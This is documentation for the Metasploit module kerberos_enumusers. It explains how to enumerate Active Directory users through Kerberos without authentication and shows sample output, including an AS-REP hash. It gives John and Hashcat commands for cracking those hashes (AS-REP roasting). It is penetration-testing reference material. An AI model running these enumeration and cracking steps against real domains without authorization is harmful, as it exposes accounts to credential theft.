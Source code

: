 ## Vulnerable Application

The kerberos_enumusers module is used to enumerate valid Domain Users
via Kerberos from a wholly unauthenticated perspective. It utilises the
different responses returned by the service to identify users that exist
within the target domain. It is also able to identify whether user
accounts are enabled or disabled/locked out.

## Verification Steps

When verifying the module in the listed examples, it is recommended to test the following accounts:

- Valid account
- Invalid account
- Locked/Disabled account
- Account with spaces
- AS-REP Roastable accounts

## Target

To use kerberos_enumusers, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts.

Create a new `./users.txt` file, then run the module:

```
msf auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.228 domain=domain.local user_file=./users.txt verbose=true
[*] Running module against 192.168.123.228

[*] Using domain: ADF3.LOCAL - 192.168.123.228:88...
[*] 192.168.123.228:88 - User: "missing123" user not found
[+] 192.168.123.228:88 - User: "administrator" is present
[+] 192.168.123.228:88 - User: "account with spaces" is present
[-] 192.168.123.228:88 - User: "locked_account" account disabled or locked out
[+] 192.168.123.228:88 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DOMAIN.LOCAL:bdb54b9e...etc..etc...
[+] 192.168.123.228:88 - User: "fake_mysql" is present
[*] 192.168.123.228:88 - User: "missing1234" user not found
[*] Auxiliary module execution completed
msf auxiliary(gather/kerberos_enumusers) > 
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket present.
The technique of cracking this token offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously creds with:

```
creds -v
```

## Options

The `kerberos_enumusers` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

### The DOMAIN option

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

### The USER_FILE option

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

### The Timeout option

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
